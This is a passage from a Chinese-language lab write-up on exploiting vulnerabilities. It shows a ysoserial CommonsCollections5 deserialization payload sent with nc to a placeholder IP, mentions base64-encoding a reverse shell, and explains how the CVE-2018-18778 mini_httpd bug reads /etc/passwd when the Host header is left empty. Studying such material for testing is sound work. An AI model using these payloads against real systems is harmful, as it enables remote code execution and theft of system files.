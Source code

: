 ```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

成功创建

![image-20200911174447057](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20200911174447057.png)

反弹shell 需要进行base64编码绕过

![image-20200911174714826](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20200911174714826.png)

未经过编码无法执行

![image-20200911174908560](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20200911174908560.png)

### CVE-2018-18778 mini_httpd任意文件读取漏洞

##### 漏洞简介及影响范围

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

ACME mini_httpd before 1.30 

##### 利用过程

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

将host字段置空 path值为绝对路径 即可读取文件

![image-20200911180644771](https://raw.githubusercontent.com/heriachen/cloudimg/main/img2/image-20200911180644771.png)